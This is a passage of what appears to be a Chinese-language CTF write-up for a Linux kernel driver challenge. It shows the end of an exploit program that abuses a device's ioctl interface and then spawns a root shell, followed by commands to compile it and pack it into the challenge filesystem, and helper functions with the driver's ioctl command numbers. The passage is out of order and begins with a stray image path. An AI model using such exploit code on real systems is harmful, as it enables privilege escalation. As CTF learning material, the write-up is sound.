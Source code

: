 ````
    {
        puts("[*]fork error!");
        exit(0);
    }
    if (pid == 0)
    {
		puts("[*]this is child process!");
		memset(p->ptr, 0, sizeof(p->ptr));
        p->start = 0;
        p->len = 0x28;
        wt(fd2);
        system("/bin/sh");
        exit(0);
	}else
    {
        puts("[*]this is child process!");
        int status;
        wait(&status);
    }

    return 0;
}
````

```
gcc exp.c -g -static -o exp
chmod +x exp
cp exp rootfs/
#pack
cd rootfs
find . | cpio -o --format=newc > ../rootfs.cpio
```





根据ioctl的命令，我们可以写出交互的函数

```
void alloc(int fd)
{
    ioctl(fd, 0x1111111, p);
}

void rd(int fd)
{
    ioctl(fd, 0x7777777, p);
}

void wt(int fd)
{
    ioctl(fd, 0x6666666, p);
}
```
